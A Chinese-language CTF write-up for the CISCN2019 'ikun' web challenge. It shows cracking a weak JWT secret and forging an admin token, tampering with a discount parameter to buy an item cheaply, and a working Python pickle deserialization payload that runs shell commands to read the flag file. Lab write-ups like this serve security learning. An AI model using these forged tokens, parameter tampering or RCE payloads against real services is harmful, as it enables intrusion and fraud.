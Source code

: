# [CISCN2019 华北赛区 Day1 Web2]ikun
![](<./img/Pasted image 20221226095504.png>)

---

![](<./img/Pasted image 20221226095527.png>)

草，地下组织是吧（

先注册一个账号试试

![](<./img/Pasted image 20221226095732.png>)

扫目录好像没扫出什么东西

![](<./img/Pasted image 20221226102523.png>)

有个jwt
```
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkNyYWNrVEMifQ.EROtea15Wqt7t3TbLzHl4silV3GhEDvAY8v6HcBiACw
```

尝试破解

```
SECRET FOUND: 1Kun
Time taken (sec): 11.454
```

伪造成`admin`

![](<./img/Pasted image 20221226105231.png>)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```

![](<./img/Pasted image 20221226105506.png>)
![](<./img/Pasted image 20221226105616.png>)

原来是让我们在首页找`lv6`嘛QAQ

当然是自动化（这辈子都是不可能手动去找的）
```python
import os
import requests
import time

url = 'http://d4c2ad15-e197-4f2a-860c-dc3a47dfe33e.node4.buuoj.cn:81/shop'

for i in range(1, 100000):
    response = requests.get(url, {'page': i})
    if response.text.find('lv6.png') > 0:
        print(i)
        time.sleep(0.1)
        break
```

> 180

![](<./img/Pasted image 20221226110421.png>)

好恶臭的价格啊（恼

![](<./img/Pasted image 20221226110619.png>)

```
_xsrf=2%7C28c03bf5%7C4c4a42fbd604997e06764c102a28edea%7C1672021882&id=1624&price=1145141919.0&discount=0.8
```
谁家`discount`这么搞的QwQ

改成`0.00000001`（居然不能直接改成`0`）

![](<./img/Pasted image 20221226110932.png>)

![](<./img/Pasted image 20221226111038.png>)

大草

![](<./img/Pasted image 20221226111057.png>)

先获取源码

```
/static/asd1f654e683wq/www.zip
```

![](<./img/Pasted image 20221226111229.png>)

高情商：节约流量

低情商：百度网盘==

![](<./img/Pasted image 20221226112353.png>)

![](<./img/Pasted image 20221226112419.png>)

```python
    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

```html
<div class="ui segment">{{ res }}</div>
```

`python`里面通过`__reduce__`魔术方法来[自定义pickle反序列化行为](https://stackoverflow.com/questions/19855156/whats-the-exact-usage-of-reduce-in-pickler)，通过

```python
import pickle
import urllib
import commands

class payload(object):
	def __reduce__(self):
		return (commands.getoutput, ('ls /',))

p = payload()
p = urllib.quote(pickle.dumps(p))
print(p)

```
用`python2`是坏文明（恼

```
ccommands%0Agetoutput%0Ap0%0A%28S%27ls%20/%27%0Ap1%0Atp2%0ARp3%0A.
```

```
app bin dev etc flag.txt home lib media mnt opt proc root run sbin srv sys tmp usr var
```

```python
import pickle
import urllib
import commands

class payload(object):
	def __reduce__(self):
		return (commands.getoutput, ('cat /flag.txt',))

p = payload()
p = urllib.quote(pickle.dumps(p))
print(p)

```

```
ccommands%0Agetoutput%0Ap0%0A%28S%27cat%20/flag.txt%27%0Ap1%0Atp2%0ARp3%0A.
```

```
flag{3811325b-5913-45d0-b8e1-bd7b8e76cb65}
```

#Web #jwt #暴力破解 #源码泄漏 #python #pickle #魔术方法 #RCE #反序列化 